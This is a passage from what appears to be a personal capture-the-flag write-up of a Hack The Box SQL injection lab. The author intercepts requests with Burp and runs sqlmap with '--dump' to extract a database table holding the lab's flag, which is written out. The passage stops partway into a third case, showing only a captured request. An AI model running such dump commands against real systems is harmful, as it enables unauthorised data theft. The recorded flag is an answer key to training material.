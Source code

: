 Let's capture the request with burp and use sqlmap:

![Pasted image 20250204150548.png](../../../../IMAGES/Pasted%20image%2020250204150548.png)


We can do the following sqlmap command:

```
python3 sqlmap.py -r reqcase2.txt --batch --dump --threads 10
```

This outputs the following:

```
+----+----------------------------------------+
| id | content |
+----+----------------------------------------+
| 1 | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+
```

Got the flag: `HTB{700_much_c0n6r475_0n_p057_r3qu357}`


## Case 3
---

For case 3 we find the following:

![Pasted image 20250204151814.png](../../../../IMAGES/Pasted%20image%2020250204151814.png)

Let's intercept the request and send it to sqlmap:

```
GET /case3.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.61.252:35591/

Connection: keep-alive

```